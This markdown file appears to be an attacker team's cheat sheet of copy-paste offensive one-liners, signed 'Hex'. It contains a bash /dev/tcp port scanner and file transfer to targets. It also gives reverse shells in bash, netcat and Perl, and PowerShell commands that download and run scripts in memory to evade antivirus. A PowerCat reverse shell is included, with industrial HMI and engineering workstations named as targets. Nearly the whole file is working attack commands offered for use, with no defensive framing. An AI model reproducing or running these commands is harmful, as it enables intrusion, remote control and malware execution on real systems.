 # General-Purpose Scripts & One-Liners

**Authored by: Hex**

Team,

Time is a luxury we don't have. This file contains battle-tested, copy-paste-ready scripts for common tasks. Use them to set up listeners, transfer files, and establish footholds quickly. These are the tools that bridge the gap between initial access and full control.

---

## Bash One-Liners

For use on Linux-based targets or from our own attacker machine.

### Simple Port Scanner
A quick and dirty way to check for open ports on a target without the noise of a full Nmap scan. Useful for a first-pass check.

```bash
# Replace TARGET_IP and iterate through a port range
TARGET_IP=10.10.X.X
for port in {1..1024}; do (echo >/dev/tcp/$TARGET_IP/$port) &>/dev/null && echo "Port $port is open"; done
```

### Simple HTTP File Server
This will serve files from the directory you run it in on port 8000

```bash
python3 -m http.server 8000
```

Then, on the target machine, you can use:
```bash
wget http://YOUR_ATTACK_IP:8000/file_to_download
```

## Reverse Shells

The primary goal after gaining command injection. Start your listener first: `nc -lvnp [PORT]`.

### Bash
```bash
bash -i >& /dev/tcp/[YOUR_IP]/[PORT] 0>&1
```

### Netcat
(Requires netcat with the -e option, which is often not available)
```bash
nc -e /bin/sh [YOUR_IP] [PORT]
```

### Perl
(Often installed on older systems)
```bash
perl -e 'use Socket;$i="[YOUR_IP]";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## PowerShell (for Windows Targets)

If we land on a Windows host (like an HMI or Engineering Workstation), PowerShell is our best friend for "living off the land."

### Download & Execute in Memory
This is the stealthiest way to run a PowerShell script on a target. It downloads the script and executes it directly in memory without ever touching the disk, making it less likely to be detected by antivirus.

```powershell
# Host your evil.ps1 script on a web server (using the python one-liner above)
# This command, run on the target, will download and execute it.
powershell -c "(New-Object System.Net.WebClient).DownloadString('http://[YOUR_IP]:8000/evil.ps1') | IEX"
```

**Note:** IEX is an alias for Invoke-Expression.

### PowerCat Reverse Shell

PowerCat is a powerful PowerShell equivalent of netcat. If you can get it onto the target, it's very effective.

1. Start a listener on your attacker machine: `nc -lvnp 4444`
2. Host the powercat.ps1 script on your web server.
3. Execute this on the Windows target to download PowerCat and pipe a shell back to you:

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://[YOUR_IP]:8000/powercat.ps1');powercat -c [YOUR_IP] -p 4444 -e cmd"
```

